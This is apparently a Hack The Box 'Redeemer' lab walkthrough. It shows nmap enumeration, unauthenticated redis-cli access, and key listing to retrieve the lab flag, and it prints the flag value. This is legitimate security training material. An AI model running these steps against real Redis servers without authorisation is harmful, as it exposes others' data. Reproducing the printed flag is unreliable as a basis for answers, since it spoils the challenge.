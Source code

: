 # Redeemer from Hack The Box

## tags:
Linux, Redis, Enumeration, Penatration Tester level 1, Attacks/Anonymous/Guest access.


## Settup

1. Connect to startingpoint VPN
2. Spawn machine
3. Store machine ip in a variable for further use

```bash
export ip=10.129.183.54
```

## Tasks

### 1.) Which TCP port is open on the machine.

This can be done by performing an nmap port scan on the target of the top 1000 ports

```bash
sudo nmap $ip
```
```
Nmap scan report for 10.129.183.54
Host is up (0.083s latency).
All 1000 scanned ports on 10.129.183.54 are in ignored states.
Not shown: 1000 closed tcp ports (reset)

Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
                                                                 
```
As this scan did not find any open ports, a follow-up scan of all ports can be performed.

```
sudo nmap -p- $ip
```

```
Nmap scan report for 10.129.183.54
Host is up (0.065s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 60.18 seconds
```

This shows me that there is 1 open tcp port: `6379`

### 2.)  Which service is running on the port that is open on the machine? 

While the basic scan shows that redis is running on tcp port 6379, a service scan will verify this finding:

```bash
sudo nmap -p 6379 -sC -sV $ip
```
```
Nmap scan report for 10.129.183.54
Host is up (0.054s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.43 seconds

```
This confirms `Redis` running on port 6379

### 3.)  What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database 

Doing some googling we can find the redis website at https://redis.io/ and find the following quote on the homepage:

*The open source, in-memory data store used by millions of developers as a database, cache, streaming engine, and message broker.*


further reading may be helpful, so I also take note of the docs url https://redis.io/docs/

However, I can be pretty certain that this is an `in-memory database`


### 4.)  Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments. 

From the docs under tools I can find that the most popular CLI is called `redis-cli`

### 5.)  Which flag is used with the Redis command-line utility to specify the hostname? 

After confirming that redis-cli is part of the kali repo, I am able to get commands with `redis-cli -h` and no other arguments to bring up a help menu

```
└─$ redis-cli -h                                                                                                    
redis-cli 6.0.16                                                                                                    
                                                                                                                    
Usage: redis-cli [OPTIONS] [cmd [arg [arg ...]]]                                                                    
  -h <hostname>      Server hostname (default: 127.0.0.1).                                                          
  -p <port>          Server port (default: 6379).                                                                   
  -s <socket>        Server socket (overrides hostname and port).                                                   
  -a <password>      Password to use when connecting to the server.                                                 
                     You can also use the REDISCLI_AUTH environment                                                 
                     variable to pass this password more safely                                                     
                     (if both are used, this argument takes precedence).                                            
  --user <username>  Used to send ACL style 'AUTH username pass'. Needs -a.                                         
  --pass <password>  Alias of -a for consistency with the new --user option.                                        
  --askpass          Force user to input password with mask from STDIN.                                             
                     If this argument is used, '-a' and REDISCLI_AUTH                                               
                     environment variable will be ignored.                                                          
  -u <uri>           Server URI.                                                                                    
  -r <repeat>        Execute specified command N times.                                                             
  -i <interval>      When -r is used, waits <interval> seconds per command.                                         
                     It is possible to specify sub-second times like -i 0.1.                                        
  -n <db>            Database number.                                           
```
From this output I can see that hostname can be set with the `-h` flag

### 6.)  Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? 

Again from reading the docs I can see that the command is `info` however first I need to connect to this redis server with `readis-cli -h 10.129.183.54:6379`

```bash
redis-cli -h 10.129.183.54:6379> info                                                                                            
# Server                                                                                                            
redis_version:5.0.7                                                                                                 
redis_git_sha1:00000000                                                                                             
redis_git_dirty:0                                                                                                   
redis_build_id:66bd629f924ac924                                                                                     
redis_mode:standalone                                                                                               
os:Linux 5.4.0-77-generic x86_64                                                                                    
arch_bits:64                                                                                                        
multiplexing_api:epoll                                                                                              
atomicvar_api:atomic-builtin                                                                                        
gcc_version:9.3.0                                                                                                   
process_id:751                                                                                                      
....ect                                                                                              
```                                              

### 7.)  What is the version of the Redis server being used on the target machine? 

From the info command that I ran, I can see the redis version is `5.0.7`

### 8.)  Which command is used to select the desired database in Redis? 


From the docs I find I can select a database with the `select` command

### 9.)  How many keys are present inside the database with index 0? 

From the info command, I can see this information present:

```
#Keyspace
db0:keys=4,expires=0,avg_ttl=0

```


So the number of keys is `4`

### 10.)  Which command is used to obtain all the keys in a database? 


From google
```
Redis KEYS command
The Redis KEYS command returns all the keys in the database that match a pattern (or all the keys in the key space). Similar commands for fetching all the fields stored in a hash is HGETALL and for all fetching the members of a SMEMBERS. The keys in Redis themselves are stored in a dictionary (aka a hash table).Nov 1, 2016
```

so `KEYS *` returns all keys

```bash
10.129.183.54:6379> KEYS *
1) "temp"
2) "numb"
3) "flag"
4) "stor"
10.129.183.54:6379> 
```

### 11.) Submit root flag


Since I can see there is a key titled "flag" I can get the value for that key with the `GET` command

```
10.129.183.54:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.183.54:6379> 

```

So the root flag is `03e1d2b376c37ab3f5319922053953eb`
